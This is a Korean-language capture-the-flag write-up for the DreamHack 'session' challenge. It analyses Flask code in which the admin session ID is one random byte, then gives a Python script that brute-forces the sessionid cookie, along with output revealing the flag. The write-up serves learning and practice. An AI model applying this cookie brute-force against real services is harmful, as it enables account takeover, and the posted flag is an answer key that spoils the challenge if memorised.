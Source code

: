 # [DreamHack] session

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 쿠키와 세션으로 인증 상태를 관리하는 간단한 로그인 서비스입니다.
> admin 계정으로 로그인에 성공하면 플래그를 획득할 수 있습니다.
>
> Release: [session.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8534051/session.zip)

## Analysis

### /

```python
@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')
```

`sessionid` 쿠키를 통해 `session_id`를 받아서, 이 `session_id`가 `session_storage`에 있으면 `username`을 설정한다.

 `usernamd`이 `'admin'`일 경우 플래그를 획득할 수 있다.

### main

```python
if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

`'admin'`의 `session_id`는 초기에 1바이트 16진수로 설정된다. 브루트포싱을 하면 쉽게 알아낼 수 있다.

## Exploit

```python
import requests

url = 'http://host1.dreamhack.games:19756/'

for sessionid in range(0x100):
    cookie = {'sessionid': bytes([sessionid]).hex()}
    print(cookie)
    res = requests.get(url, cookies=cookie)
    if 'flag is' in res.text:
        print(res.text)
        break
```

```
$ python3 solve.py
{'sessionid': '00'}
{'sessionid': '01'}
{'sessionid': '02'}
...
{'sessionid': 'c9'}
<!doctype html>
<html>
  <head>
    <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    <link rel="stylesheet" href="/static/css/bootstrap-theme.min.css">
    <link rel="stylesheet" href="/static/css/non-responsive.css">
    <title>Index Session</title>


  <style type="text/css">
    .important { color: #336699; }
  </style>

  </head>
<body>

    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Session</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="#">About</a></li>
          </ul>

          <ul class="nav navbar-nav navbar-right">
            <li><a href="/login">Login</a></li>
          </ul>

        </div><!--/.nav-collapse -->
      </div>
    </nav>
    <!--
      # default account: guest/guest
    -->
    <div class="container">

  <p class="important">
        Welcome !
  </p>

  <h3>
        Hello admin, flag is DH{73b3a0ebf47fd6f68ce623853c1d4f138ad91712}

  </h3>


    </div> <!-- /container -->

    <!-- Bootstrap core JavaScript -->
    <script src="/static/js/jquery.min.js"></script>
    <script src="/static/js/bootstrap.min.js"></script>
</body>
</html>
```